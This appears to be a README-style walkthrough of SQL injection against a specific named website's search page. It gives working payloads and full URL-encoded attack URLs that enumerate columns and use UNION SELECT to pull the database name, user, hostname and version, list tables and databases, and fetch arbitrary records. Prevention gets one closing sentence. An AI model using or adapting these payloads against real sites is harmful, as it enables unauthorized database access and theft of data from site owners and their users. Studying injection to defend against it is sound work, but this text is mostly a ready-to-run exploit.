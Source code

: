 # Website Link : https://fruits.selfmade.solutions

This website is Vulnerabile in sql injection. Here we see how sql injection happen in real world using this website.

# SQL Injection Vulnerability Experiment

## Overview

This section documents the SQL injection vulnerabilities identified in the website [https://fruits.selfmade.solutions/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## Testing for SQL Injection

To determine if a website is vulnerable to SQL injection, you can use various payloads and observe the system's responses. Here are some commands and payloads that were used to test the website.

### Basic SQL Injection Test

To perform a basic SQL injection test, input the following payload into the search functionality of the website:

' OR '1'='1

**Expected Outcome:** The query should return all records, indicating that the SQL injection is successful.

### Advanced SQL Injection Tests

#### Finding the Number of Columns

You may need to find the number of columns in the original query. This can be done with an injection like:

- `' ORDER BY 1;--`
- `' ORDER BY 2;--`
- `' ORDER BY 3;--`

Continue increasing the number until you get an error, which will indicate the number of columns.

Inject the Union-Based Payload:
Once you know the number of columns, use the UNION injection. Because this website's sql query doesn't support mulitple commands in single line.

Knowing that the search table has 12 columns, you need to adjust your UNION SELECT statement to match this structure. Here's how you can do it:

Crafting the Injection Payload for a 12-Column Table
Match the Number of Columns:
Ensure the UNION SELECT has the same number of columns as the original query.

Use Null Values for Unneeded Columns:
If you're only interested in extracting the database name, use null for the other columns.

### Extracting the database name

`' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--`

Here we use URL encode because this website uses GET method in form so the given inputs are passes through the URL so we use URL encoding to avoid errors.Which can be seen clearly in result page URL after searching like `apple` etc...

URL Encoded Payload
To use this in a URL, you need to URL-encode the payload:

plaintext

`%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--`

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--%20

Explanation

' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--:
This payload injects a union query that matches the 12-column structure of the original query and extracts the current database name.

URL-encoded version:

This converts the payload into a format suitable for use in a URL.

we can't use Error-Based Injection in this website because the error stop the flow of execution in the server.

### Retrieving User Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT user(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

plaintext

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20user%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retrieving Server Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT @@hostname, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20%40%40hostname%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retriving Sql Version 

use the following payload:

`' UNION SELECT version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20version%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Listing All Tables in the Database

To list all tables in the current database, use:

`' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = database();-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28table_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20%3D%20database%28%29%3B--%20

### Listing All Databases

To list all databases, use:

`' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.schemata;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28schema_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.schemata%3B--%20

### To find additional informations

use:`' OR (backtick here)id(backtick here)='13' -- `

This input will fetch exactly the item with id '13' on the table.

Example : https://fruits.selfmade.solutions/result.php?search=%27+OR+%60id%60%3D%2713%27+--++

## SQL Injection Prevention

To protect your application from SQL injection vulnerabilities, always sanitize and validate a user inputs.
